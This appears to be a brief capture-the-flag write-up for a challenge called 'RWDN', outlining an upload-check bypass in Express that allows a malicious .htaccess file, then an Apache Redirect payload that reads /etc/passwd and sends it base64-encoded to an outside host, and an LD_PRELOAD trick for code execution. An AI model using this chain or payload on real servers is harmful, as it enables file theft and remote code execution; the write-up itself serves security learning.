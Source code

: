 # RWDN

- In check.js each `req.files` is checked but `next()` is called in each iteration which causes express to continue
- If a lot of valid files are uploaded then `app.post('/upload'` will be processes with our invalid `req.files[req.query.formid]`
- Using ^ we ca upload an .htaccess file
- Can read arbitrary files using something like `Redirect 307 "http://aw.rs/?%{base64:%{file:/etc/passwd}}"`
- Reading the apache.conf there is `ExtFilterDefine 7f39f8317fgzip mode=output cmd=/bin/gzip`
- This output filter can be combined with `SetEnv LD_PRELOAD` to get code execution when running gzip
- See [solv.py](./solv.py)
